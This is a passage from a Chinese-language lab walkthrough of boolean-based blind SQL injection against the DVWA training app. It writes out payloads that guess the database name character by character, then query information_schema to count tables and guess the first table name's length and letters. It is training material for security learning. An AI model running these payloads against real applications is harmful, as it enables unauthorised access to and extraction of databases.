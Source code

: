 #### 16.输入1' and Substr(database(),2,1)=v’ #

![image-20250528194717642](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528194717642.png)



#### 17.成功输出，说明第二个字为v



![image-20250528194912129](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528194912129.png)

#### 18.输入1' and Substr(database(),3,1)=w’ #

![image-20250528194953173](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528194953173.png)

#### 19.成功输出，说明第三个字为w

![image-20250528195025254](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528195025254.png)

#### 20.输入1' and Substr(database(),4,1)=a’ #

![image-20250528195203848](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528195203848.png)

#### 21.成功输出，说明第三个字为a

![image-20250528195217320](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528195217320.png)

#### 22.综上所述，数据库的名字为dvwa

### 四、盲猜数据库表名字

#### 1.输入1' and (select count(table_name)from information_schema.tables where table_schema=database())=2 #

![image-20250528195431745](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528195431745.png)

#### 2.成功输出，说明数据库有两张表

![image-20250528195703909](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528195703909.png)

#### 3.输入1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #

![image-20250528195954843](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528195954843.png)

#### 4.成功输出，说明第一张表名字有9个字符

![image-20250528200007425](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250528200007425.png)

#### 5.输入1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='g' #

